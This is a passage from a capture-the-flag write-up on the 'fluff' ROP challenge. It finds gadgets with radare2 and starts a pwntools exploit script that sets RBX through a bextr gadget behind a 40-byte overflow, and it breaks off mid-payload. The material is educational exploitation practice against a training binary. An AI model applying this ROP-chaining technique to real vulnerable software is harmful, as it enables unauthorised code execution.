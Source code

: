 We can control the values in the `RDX` and `RCX` registers with the ROP gadget at `0x0040062a`. Keep in mind, if we want to control the true value of the `RCX` register, we will also need to subtract `0x3ef2`.

Next, we need a way to set the RDI register:

```
[0x00400628]> /R pop rdi
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```

We have a gadget at `0x004006a3`!

## Crafting the Exploit - Controlling RBX

Now that we have analyzed the gadgets, we know that this binary is exploitable. After carefully analyzing and understanding each gadget under the `questionableGadgets` symbol, we should start developing our exploit with a bottom-up approach. First, we need a way to control the `EBX` register. Let's see if we can set `EBX` to `0xdeadbeefdeadbeef` with the exploit code below.

Note that I've kept all the memory addresses to the questionable gadgets handy for later.

```python
import ctypes
from pwn import *

def prepare_rbx(target, rop):
    # Constants
    pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget = p64(0x0040062a) # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
    magic_const = 0x3ef2
    
    # ROP Chaining
    rop.raw(pop_rdx_pop_rcx_add_rcx_bextr_ret_gadget)
    rop.raw(p64(0x4000)) # Extract 64 bits from offset 0 in RCX. Results will be written to RBX.
    rop.raw(p64(ctypes.c_ulong(target - magic_const).value))

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './fluff'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x0040062a"
pid = gdb.attach(io, gdbscript=gdbscript)

# Gadgets
rop = ROP(io.elf)
writable_data_segment = 0x00601028
stosb_gadget = p64(0x00400639)                                  # stosb byte [rdi], al; ret;
xlat_ret_gadget = p64(0x00400628)                               # xlatb; ret;
pop_rdi_ret = p64(0x004006a3)                                   # pop rdi; ret;

# Prepare the RBX register
target = 0xdeadbeefdeadbeef
prepare_rbx(target, rop)

# Build the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
    padding,
```